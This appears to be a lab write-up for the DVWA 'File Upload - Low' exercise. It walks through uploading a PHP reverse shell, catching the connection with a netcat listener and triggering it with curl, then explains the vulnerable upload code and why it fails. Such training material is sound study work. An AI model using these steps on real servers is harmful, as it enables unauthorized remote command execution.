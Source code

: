 # File Upload - Low

---

## Attack Steps

1. Open the target page in the browser:
    - http://<ip address>/dvwa/vulnerabilities/upload

2. Open a terminal 
    - `CTRL + ALT + T`

3. Edit the `php-reverse-shell.php` webshell to include the kali machine's IP address 
    ```bash 
    sudo nano /usr/share/webshells/php-reverse-shell.php
    ```
    - Change the IP address 
    ```bash 
    $IP = '192.168.56.102'; # Example IP address
    ```

4. Save and exit 

    - `CTRL + O` to save 
    - `CTRL + X` to exit 

5. On the target page, upload the webshell 

6. On the kali terminal start a listener 

    ```bash 
    nc -lvnp 1234 # If you changed the port number in the webshell file then change it here 
    # l - listener mode
    # v - verbose output 
    # n - skip DNS resolution (faster) 
    # p <port number> - Listen on port number assigned # Change to your port number
    ```

7. Navigate to the uploaded webshell 

    - The uploaded file was saved to http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php

    - Alternatively run `curl -s http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php` in another terminal 

8. On the netcat listener look a connection
    
    - The should be output similar to the following 
    ```bash 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    sh: no job control in this shell 
    sh-3.2$ 
    ```

    - We can now run commands on the DVWA machine

## Vulnerable Code Analysis


### File 
`/var/www/dvwa/vulnerabilities/upload/source/low`

#### Key Vulnerability Points:

```php 
 <?php
    if (isset($_POST['Upload'])) {

            $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
            $target_path = $target_path . basename( $_FILES['uploaded']['name']);

            if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
                
                echo '<pre>';
                echo 'Your image was not uploaded.';
                echo '</pre>';
                
              } else {
            
                echo '<pre>';
                echo $target_path . ' succesfully uploaded!';
                echo '</pre>';
                
            }

        }
?> 
```

### Explanation

- The code takes the uploaded file directly from the user without validation or sanitisation:

    ```php 
    $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
    $target_path = $target_path . basename($_FILES['uploaded']['name']);
    ```
- The file is then moved to a web accessible upload directory 

    ```php 
    move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)
    ```

- This allows an attacker to upload any file, including malicious scripts in this case PHP

- An attacker can exploit this by uploading a webshell e.g. shell.php
- This can be executed remotely as its accessible via a browser or using `curl`

- Causes: 
    - No validation or sanitization of the uploaded filename or file content, so users can upload anything.

    - No restrictions on allowed file types or extensions.

    - Upload directory is directly accessible via the web, allowing execution of uploaded scripts.

    - Lack of checks like MIME type verification, file extension whitelisting, or scanning for malicious content.
